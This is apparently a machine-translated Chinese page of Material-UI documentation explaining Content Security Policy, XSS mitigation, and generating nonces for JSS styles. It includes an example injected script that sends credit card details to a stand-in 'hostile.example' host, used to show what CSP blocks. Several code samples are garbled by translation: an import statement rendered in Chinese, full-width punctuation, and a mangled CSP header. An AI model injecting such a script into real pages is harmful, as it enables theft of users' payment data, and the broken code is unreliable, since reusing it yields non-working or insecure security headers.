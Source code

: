 # 內容安全政策（CSP）

<p class="description">Material-UI支持內容安全策略標頭。</p>

## 什麼是CSP，為什麼它有用？

基本上，CSP通過要求開發人員將其資產從中檢索的源列入白名單來緩解跨站點腳本（XSS）攻擊。 此列表作為服務器的標頭返回。 例如，假設您有一個託管在 `https://example.com` 的網站，CSP標頭 `默認為-src：'self';` 將允許位於 `https://example.com/*` 所有資產並拒絕所有其他資產。 如果您的網站的某個部分容易受到XSS的影響而未顯示未轉義的用戶輸入，則攻擊者可以輸入以下內容：

    <script>
      sendCreditCardDetails（'https：//hostile.example'）;
    </script>
    

此漏洞允許攻擊者執行任何操作。 但是，使用安全的CSP標頭，瀏覽器將不會加載此腳本。

你可以閱讀更多關於CSP [這裡](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)。

## 如何實現CSP？

為了將CSP與Material-UI（和JSS）一起使用，您需要使用nonce。 隨機數是一個隨機生成的字符串，僅使用一次，因此您需要添加服務器中間件以在每個請求上生成一個。 JSS有 [偉大的教程](https://github.com/cssinjs/jss/blob/master/docs/csp.md) 如何用快遞來實現這一點，並作出反應頭盔。 對於基本綱要，請繼續閱讀。

CSP nonce是Base 64編碼的字符串。 你可以這樣生成一個：

```js
從'uuid / v4'導入uuidv4;

const nonce = new Buffer（uuidv4（））。toString（'base64'）;
```

使用UUID版本4非常重要，因為它會生成 **不可預測的** 字符串。 然後，將此nonce應用於CSP標頭。 應用了隨機數時，CSP標頭可能如下所示：

```js
header（'Content-Security-Policy'）
  .set（`default-src'self'; style-src：'self''nonce-${nonce}';`）;
```

如果使用服務器端呈現（SSR），則應在服務器上的 `<style>` 標記中傳遞隨機數。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheetsRegistry.toString() } }
/>
```

然後，您必須將此隨機數傳遞給JSS，以便將其添加到後續的 `<style>` 標記中。 客戶端從頭部獲取nonce。 無論是否使用SSR，都必須包含此標頭。

```jsx
<meta property="csp-nonce" content={nonce} />
```
